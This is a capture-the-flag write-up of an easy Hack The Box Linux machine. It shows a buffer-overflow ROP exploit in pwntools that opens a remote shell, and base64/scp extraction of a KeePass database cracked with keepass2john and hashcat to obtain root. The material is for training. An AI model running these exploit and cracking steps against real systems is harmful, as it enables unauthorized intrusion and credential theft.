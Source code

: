 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## Recon

### Nmap Scan
Identified open ports:
- **TCP 80** [HTTP](HTTP)
- **TCP 1337** (discovered via source code comment)

Performed additional scans:
```bash
nmap -sC -sV -p- 10.10.10.147
```

### Nikto Scan
Revealed default Apache page and /manual directory. A comment in the source code hinted at port 1337 and a downloadable binary (`myapp`).

## Binary Analysis (Buffer Overflow)

### Initial Test
Ran `myapp`, asked user input. Created a basic overflow with Python:
```python
print("A" * 200)
```
Submitted 200 A's and caused a crash.

### Using GDB (with peda)
- Ran `checksec`:
  - NX enabled
  - RELRO Partial
- Set follow mode: `set follow-fork-mode parent`
- Ran program with cyclic pattern from pwntools:
```python
from pwn import *
cyclic(200, n=8)
```

Used `x/xg $rsp` to get the address and determine the offset with:
```bash
pattern offset -q <value from RSP>
```
Offset identified: **120**

### Using Radare2
```bash
r2 -d myapp
[0x00000000]> aaa
[0x00000000]> afl
```
Revealed functions:
- `main` uses `/usr/bin/uptime` with a `system()` call
- `test` function contains a usable `pop r13; ret` gadget

### Using ROPgadget
Found:
- `pop r13; pop r14; pop r15; ret`

## ROP Chain Construction
- Place `/bin/sh` into memory
- Set r13 to `system@plt`
- Use gadget to pop r13, r14, r15 with dummy values
- Jump to `test()`

## Exploit Script
Local exploit with pwntools:
```python
from pwn import *
context.binary = './myapp'
p = process('./myapp')

offset = 120
pop_r13_r14_r15 = p64(0xdeadbeef)
system = p64(0xdeadbeef)
binsh = b"/bin/sh\x00"

payload = b"A" * offset
payload += pop_r13_r14_r15
payload += system
payload += p64(0x0) * 2
payload += p64(address_of_test)

p.sendlineafter("echo back?", payload)
p.interactive()
```

## Remote Exploitation
Modified above to use remote connection:
```python
p = remote('10.10.10.147', 1337)
```
Gained shell and accessed:
```bash
cat /home/user/user.txt
```

## Root Flag (KeePass)
### KeePass DB Found
- File: `MyPasswords.kdbx`
- Images: `IMG_0547.JPG`, etc.

### Exfiltration
- Base64 encoded files and copied to local machine
```bash
base64 MyPasswords.kdbx > kdbx.b64
```
- Decoded on attacker box
```bash
base64 -d kdbx.b64 > MyPasswords.kdbx
```

### SSH Key Auth Setup
- Generated RSA key pair
- Copied public key to `~/.ssh/authorized_keys`

### File Transfer
```bash
scp -i id_rsa user@10.10.10.147:IMG_0547.JPG .
```

### KeePass2John
Generated hash:
```bash
keepass2john MyPasswords.kdbx IMG_0547.JPG > hash.txt
```

### Cracking
```bash
hashcat -a 0 -m 13400 hash.txt rockyou.txt
```
Found password: `somepass123`

### Unlock DB
Used KeePassXC:
- Password: `somepass123`
- Key file: `IMG_0547.JPG`
- Retrieved: **Root password**

### Root Access
```bash
ssh -i id_rsa user@10.10.10.147
su root
```
Used KeePass creds for `root`, accessed:
```bash
cat /root/root.txt
```

## Flags
- **User:** `xxxx...`
- **Root:** `xxxx...`

## Resources
- [ROP Emporium](https://ropemporium.com/)
- [Pwntools Docs](http://docs.pwntools.com/en/stable/)
- [Keepass2John Guide](https://rubydevices.com.au/blog/how-to-hack-keepass)